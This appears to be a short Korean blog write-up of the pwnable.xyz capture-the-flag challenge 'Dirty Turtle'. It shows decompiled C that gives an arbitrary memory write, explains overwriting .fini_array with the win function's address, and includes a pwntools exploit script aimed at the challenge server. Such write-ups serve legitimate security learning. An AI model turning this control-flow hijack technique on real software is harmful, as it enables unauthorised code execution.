 ```yaml
---
title: "[pwnable.xyz]Dirty Turtle"
date: 2020-2-2
ctf: Pwnable.xyz
layout: post
---
```


원하는 주소에 원하는 값을 쓸 수 있다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 v3; // rax
  char *s; // [rsp+0h] [rbp-10h]
  unsigned __int64 v6; // [rsp+8h] [rbp-8h]

  setup();
  puts("Dirty Turtle Off-RoadS");
  printf("Addr: ", argv);
  v3 = get_val();
  printf("Value: ", v3);
  v6 = get_val();
  if ( v6 )
    *s = v6;
  else
    puts(s);
  return 0;
}
```

.dtors 영역인 .fini_array을 win주소로 덮어주면 된다. 그러면 main함수 끝나고 win함수 호출된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30033)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

sa(':',str(0x0000000000600bc0)) # .fini_array
sa(':',str(e.symbols['win']))

p.interactive()
```

